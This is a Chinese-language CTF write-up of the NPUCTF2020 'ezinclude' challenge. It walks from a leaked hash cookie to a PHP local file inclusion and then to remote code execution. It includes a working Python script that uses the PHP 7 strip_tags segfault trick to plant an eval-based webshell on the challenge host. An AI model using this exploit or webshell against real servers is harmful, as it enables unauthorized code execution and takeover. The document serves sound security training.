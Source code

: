 # \[NPUCTF2020]ezinclude

## \[NPUCTF2020]ezinclude

## 考点

* 从LFI到RCE
* 利用session.upload\_progress进行文件包含
* 利用php7 Segment Fault

## wp

打开直接显示`username/password error`

F12提示`md5($secret.$name)===$pass`

查看返回头给了HASH

```
Set-Cookie: Hash=fa25e54758d5d5c1927781a6ede89f8a; expires=Fri, 25-Feb-2022 05:50:05 GMT; Max-Age=3600000
```

这就相当于告诉了name和pass，访问`/?name=&pass=fa25e54758d5d5c1927781a6ede89f8a`跳转到404页面，用burp抓包可以看到未跳转的页面

![](<../../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

访问flflflflag.php，发现是404，再抓包

![](<../../.gitbook/assets/image (30).png>)

是一个文件包含，直接尝试PHP伪协议`php://filter/read=convert.base64-encode/resource=index.php`

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
  echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
  </script>
';
}else{
  setcookie("Hash",md5($secret.$name),time()+3600000);
  echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

flflflflag.php

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
  die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

目录扫描可以找到dir.php

```php
<?php
var_dump(scandir('/tmp'));
?>
```

然后就没找到什么了，可能是LFI到RCE，对了，返回头写了PHP的版本是7.0

本来想用session.upload\_progress进行文件包含，可能是buu的限制没成功。那就换个思路，用[php7 Segment Fault](https://qftm.github.io/2020/03/15/LFI-PHPINFO-OR-PHP7-Segment-Fault/#toc-heading-19)

```php
import requests 
from io import BytesIO 
import re 

files = { 
    'file': BytesIO(b'<?php eval($_POST["cmd"]);?>') 
} 

url1 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=index.php' 

r = requests.post(url=url1, files=files, allow_redirects=False) 

url2 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=dir.php' 

r = requests.get(url2,allow_redirects=False) 
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content.decode()).group(0) 


print("++++++++++++++++++++++")
print(data) 
print("++++++++++++++++++++++") 


url3='http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=/tmp/'+data


data = { 'cmd':"phpinfo();" } 


r = requests.post(url=url3,data=data,allow_redirects=False) 

print(r.content)
```

我说怎么一直system不动，原来给ban了，所以用session.upload\_progress进行文件包含也是可以的。

![](<../../.gitbook/assets/image (3) (1) (1) (1).png>)

写入shell后用蚁剑然后bypass

![](<../../.gitbook/assets/image (15) (1).png>)

## 小结

1. 从LFI到RCE
2. 代码执行先看看`phpinfo()`有没有东西
